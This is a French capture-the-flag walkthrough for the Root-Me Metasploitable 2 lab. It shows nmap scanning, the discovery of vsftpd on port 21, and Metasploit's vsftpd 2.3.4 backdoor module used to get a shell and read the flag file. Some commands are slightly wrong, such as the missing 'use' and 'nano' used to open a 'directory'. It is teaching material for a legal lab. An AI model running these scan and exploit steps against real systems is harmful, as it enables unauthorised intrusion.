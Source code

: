 
# CTF - Metasploitable 2
https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=fr
```
L'objectif est de trouver un flag de validation est stocké dans le fichier /passwd
```
<br>
Pour commencer, ouvrez votre os linux pour ma part j'utilise kali

Sur la page du CTF vous pourrez retrouvez votre environnement virtuel à attaquer sous la forme de ctfXX.root-me.org
Lancez ensuite un terminal et éxécutez
```
host ctfXX.root-me.org
```
Vous obtiendrez une réponse comme ceci<br>
IMAGE

Munissez vous ensuite de Zenmap et faites un scan de votre environnement ctfXX comme ceci <br>
IMAGE

ou sinon directement depuis nmap avec
```
nmap -T4 -A -v ctfXX.root-me.org
```
<br><br>
Dans la catégorie des Ports, on peut constater un port 21 ouvert avec comme version "vsftpd"
<br>
Lancez ensuite metasploit et faites une recherche avec 
```
search vsftpd
```
Vous retrouverez "exploit/unix/ftp/vsftpd_234_backdoor"<br><br>
Dans votre terminal entrez 
```
exploit/unix/ftp/vsftpd_234_backdoor
```
Puis confirmez par Y
<br>
Faites ensuite un check des options avec
```
show options
```

Comme vous pouvez le constater, les RHOSTS n'ont aucun host
Rentrez le vous même avec 
```
set rhost *l'adresse du host obtenue avec la commande "host ctfXX"
```

Vous pourrez ensuite effectuer un 
```
exploit
```
Ensuite un 
```
shell
```
Pour finir un 
```
ls
```
Et afin de vous rendre dans le répertoire où ce trouve le flag, soit passwd, faites
```
nano passwd
```

Bon courage !
